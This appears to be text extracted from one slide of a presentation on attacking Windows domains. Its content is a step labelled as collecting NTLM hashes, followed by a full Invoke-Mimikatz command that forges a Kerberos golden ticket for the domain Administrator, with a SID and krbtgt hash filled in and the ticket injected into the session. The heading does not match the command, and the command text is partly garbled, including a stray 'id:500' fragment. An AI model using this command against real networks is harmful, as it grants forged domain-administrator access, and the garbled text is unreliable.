

# 7. Run Mimikatz to collect NTLM hashes
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-
3149556376-1990581062-424258432-500 /krbtgt:ff46a9d8bd66c6efd77603da26796f35
id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
Example of generating Golden ticket for  user corp\Administrator